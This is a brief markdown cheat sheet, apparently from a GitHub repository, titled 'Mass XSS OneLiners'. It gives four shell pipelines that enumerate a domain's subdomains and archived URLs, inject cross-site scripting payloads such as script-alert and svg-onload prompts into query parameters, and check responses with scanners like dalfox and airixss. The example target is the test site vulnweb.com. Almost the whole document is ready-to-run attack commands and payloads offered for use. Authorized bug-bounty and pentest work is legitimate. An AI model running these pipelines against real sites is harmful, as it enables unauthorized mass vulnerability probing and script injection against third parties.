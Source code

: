 # Mass XSS OneLiners
- Dalfox XSS<br>
`subfinder -d vulnweb.com | httpx | katana -ps | gf xss | qsreplace | anew | dalfox pipe --skip-bav`
- AiriXSS Oneline<br>
`echo vulnweb.com | assetfinder --subs-only | httpx --silent | waybackurls | qsreplace '@x.y"><xss onmouSEOver=prompt(1337)>' | airixss -p 'prompt(1337)' | grep -v 'Not'`
- Freq XSS<br>
`echo vulnweb.com | assetfinder --subs-only | httpx --silent | waybackurls | gf xss | qsreplace '"><script>alert(1)</script>' | freq | grep -v 'Not'`
- Crawling XSS<br>
`echo vulnweb.com | assetfinder --subs-only | httpx --silent -t 95 | katana -xhr -jc -fx -kf all --silent | grep '?' | anew | qsreplace '"><svg/onLOAD=prompt(7*7)>' | airixss -p 'onLOAD=prompt(7*7)>' | grep -v 'Not'`
